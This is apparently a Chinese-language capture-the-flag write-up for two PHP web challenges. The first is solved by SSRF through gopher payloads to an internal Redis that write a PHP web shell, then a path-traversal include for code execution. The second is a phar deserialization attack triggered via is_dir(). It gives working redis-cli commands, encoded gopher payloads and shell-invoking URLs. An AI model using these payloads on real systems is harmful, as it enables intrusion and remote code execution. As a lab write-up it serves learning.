 # 陸拾肆基底編碼之遠端圖像編碼器
## 1. file protocol
利用 `file:///path/to/file` 取得 source code, 觀察後發現後端是用 php curl 來訪問我們給予的 url, 其中有一些 rules 如不能訪問 local ip 等等.

## 2. bypass rule
試過幾種方法, 如 `http://127.0.0.1;google.com/` 等等希望能讓 php 混淆, 似乎沒什麼用 QQ. 最後用 `http:///` 來 bypass `parse_url()` 的 rule, 成功存取內網服務, 進行 `SSRF` 攻擊.

不過要存取哪裡呢? 利用第一步的任意存取, 首先可以透過查看 `/proc/net/tcp` 或是 `/proc/net/tcp6` 看有在使用的 port:
```
sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
0: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 8359666 2 0000000084ee9dc6 99 0 0 10 0                    
1: 0B00007F:9ADD 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 8423762 1 00000000c65df704 99 0 0 10 0                    
2: 0100007F:69FE 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 8459689 1 00000000c15a58ad 99 0 0 10 0                    
3: 0100007F:69FE 0100007F:B3AC 01 00000000:00000000 02:00001D6B 00000000   101        0 11282666 2 00000000c563cddd 20 3 0 10 -1                  
4: 0100007F:B642 0100007F:69FE 01 00000000:00000000 00:00000000 00000000    33        0 11313066 1 00000000b994934d 20 3 0 10 -1                  
5: 0100007F:D6D8 0100007F:69FE 01 00000000:00000000 00:00000000 00000000    33        0 11413407 1 00000000e5a22dc6 20 3 16 10 -1                 
6: 020014AC:0050 40D0738C:3732 03 00000000:00000000 01:00000063 00000000     0        0 0 0 00000000          
... 略
```
值得注意的是 020014AC:0050 = 172.20.0.2:80, 也就是對外的 web server; 並且有一個 0100007F:69FE = 127.0.0.1:27134, 建立了非常多連線, 可以猜測為某個常駐的服務

然而查看 `/etc/passwd` 或是 `/etc/group`, 都能發現有個 redis user/group, 可以猜測那個常駐的服務即為 redis, 於是送一個 ping 過去:
`gopher:///127.0.0.1:27134/_ping%0D%0AQuit%0D%0A`, 回了一個 base64 string, 解密後為 `+PONG\r\n+OK`, 猜測正確.

## 3. 寫檔
利用 redis 可以將當前資料儲存成 db 的特性, 將 php code 寫入變數. 原本想儲存在 `/var/www/html` 下面, 不過沒寫的權限 (應該也是蠻正常的XD). 最後儲存在 `/tmp`, 檔名為 `qqqq.inc.php`.

能透過 url=`file:///tmp/qqqq.inc.php` 來確定是否有被寫入. 而為什麼是 `.inc.php` 呢, 待會第四點會說明.

### redis-cli command
```
bgsave
config set stop-writes-on-bgsave-error no
set 1 "<?php system($_GET[a]);?>"
config set dir /tmp
config set dbfilename qqqq.inc.php
quit

```
- 加 `bgsave` 是希望能用非同步的方式儲存, 不阻塞 main process. 此時會直接 fork 出一個 process
- 加 `stop-writes-on-bgsave-error no` 是因為不希望 redis 因為 error 出現, 就停止寫檔

### gopher payload
```
gopher:///127.0.0.1:27134/_bgsave%0D%0Aconfig%20set%20stop-writes-on-bgsave-error%20no%0D%0Aset%201%20%22%3C%3Fphp%20system%28%24_GET%5Ba%5D%29%3B%3F%3E%22%0D%0Aconfig%20set%20dir%20%2Ftmp%0D%0Aconfig%20set%20dbfilename%20qqqqq.inc.php%0D%0Aquit%0D%0A
```

## 4. 讀檔
回到剛剛的 web page, 可以發現一開始轉換的 page `http://base64image.splitline.tw:8894/?page=result` 有個參數叫 `page`, 將 `result` 任意更動後會噴出一些 error msg. 經過觀察 + 看原始碼, 可以知道他其實是會 filter `'../'`, 最後將 value 加上副檔名 `.inc.php` 把檔案 include 近來.

我們可以用 `....//` 來 **bypass previous dir include**, 可以用 redis 任意寫檔在可以寫的目錄 e.g. `/tmp` 寫 php file, 並 include 他. 由於 php 會自動 append `.inc.php` 在檔案後面, 所以當初在存 redis 的 dumpfile 時需要取 `.inc.php` 結尾的. 

`http://base64image.splitline.tw:8894/?page=....//....//....//....//tmp/qqqq&a=cat /flag*`

最後透過 `SSRF`, 成功 RCE.
![](b64/2-1.png)

## 5. reproduce
重現時發現如果送給 redis 的 payload 中若設定 bgsave, 似乎不會成功儲存 db file, 因此在此附上沒有 bgsave 的解法

### redis-cli command
```
set 1 "<?php system($_GET[a]);?>"
config set dir /tmp
config set dbfilename qqqqq.inc.php
quit
```

### gopher payload
```
gopher:///127.0.0.1:27134/_set%201%20%22%3C%3Fphp%20system%28%24_GET%5Ba%5D%29%3B%3F%3E%22%0D%0Aconfig%20set%20dir%20%2Ftmp%0D%0Aconfig%20set%20dbfilename%20qqqqq.inc.php%0D%0Aquit%0D%0A
```

`http://base64image.splitline.tw:8894/?page=....//....//....//....//tmp/qqqqq&a=ls%20-al`

# Rero Meme

## 分析
### login.html
POST username and login

### index.php + lib.php
1. 根據 username 來 new User (每次都要 new 一次，超怪) 
	- User(username, 'images/')
    	- `__contruct()`
    		- dir 預設 '.'
    		- 改變目錄至 dir
    		- **先用 `is_dir()` 判斷路徑是否存在**, 若否, 再根據 username 新增 dir (所以會在 dir/username)
    		- set session['username'] = username
    		- 改變目錄至 DOCUMENT_ROOT
  		- `__toString()`
    		- `htmlentities(username)`
2. 可以 POST file
	- 判斷有沒有 gif signature (GIF89A)
	- POST title 為檔名, re "/[a-z0-9_\- ]+/i"
	- 取得檔案內容, 新增一個 meme
	- Meme(title, author, content)
    	- `__construct()`
        	- `$this->filename = "images/$author/$title.gif";` 這段怪怪
      	- `__destruct()`
           	- content 放到 filename
             	- 任意寫

## 攻擊
其實我覺得根據當周的演講內容, 以及先用 admin login, 看到有人的 payload 像是 phar 壓過的, 就可以猜到這題要想辦法利用 handle file 相關的 function, 因為這些 function 通常含有 php stream wrapper, 而這些 wrapper 最後會 call `unserialize($p->Metadata)`, 造成反序列化攻擊.

達成攻擊的條件有兩個：
1. 寫檔, 並且檔案可存取: 此為網站預設功能, 符合
2. 讀檔, 並且 function 與參數皆有限制: 需要 trace source code, 看看有哪些程式碼片段可以利用

可以先上網搜尋那些常看見的 function 是有用到 php stream wrapper 的：
![](meme/1-1.png)

而仔細觀察發現, 程式碼中有在以上列表的有：
```
if(!is_dir($username)) in lib.php
file_put_contents($this->filename, $this->content); in lib.php
exif_imagetype($tmp_name) in index.php
```

觸發 phar 反序列化的條件為: 傳入參數必須要是 `phar://XXXXX`, 才能有效反序列化 phar file, 因此更進一步的分析：
- `if(!is_dir($username)) in lib.php`
    - username 完全可控, 肯定是我們要的
- `file_put_contents($this->filename, $this->content); in lib.php`
    - 由於 `$filename` 的 define 為 `$this->filename = "images/$author/$title.gif";`, 因此不可能設計成 `phar://` 的樣子
- `exif_imagetype($tmp_name) in index.php`
    - `$tmp_name` 不可控, 也不會是 `phar://XXX` 的樣子

於是找到了讀檔, 透過構造一個 phar file, content 包含：
1. 用來 bypass `IMAGETYPE_GIF` 的 `GIF89A` 起頭
2. 用來讓 php 不要繼續 compile 的 function `<?php __HALT_COMPILER(); >`
3. 注入序列化的 Meme class, 並且能透過 Meme class 的 `__destructor()`: `...; file_put_contents($this->filename, $this->content);` 達到控制任意位置寫檔

產生 payload 的 exploit 為資料夾中的 `exp.php`

以下為攻擊情境：
- payload_name = `qq.gif`
- title = `qqqq`
- 使用者 = u1f383

1. 上傳 payload, 而檔案會存成 `images/u1f383/qqqq.gif`
2. 使用另一個帳號登入, username 為 `phar://u1f383/qqqq.gif`
	- 此時會因為 `is_dir()` 造成 `u1f383/qqqq.gif` 此檔案被反序列化, 產生 `images/qqqqq.php`
3. 存取 `images/qqqqq.php` 即可看到空白頁面, 傳入參數 `a=cat /flag*` 即可拿到 flag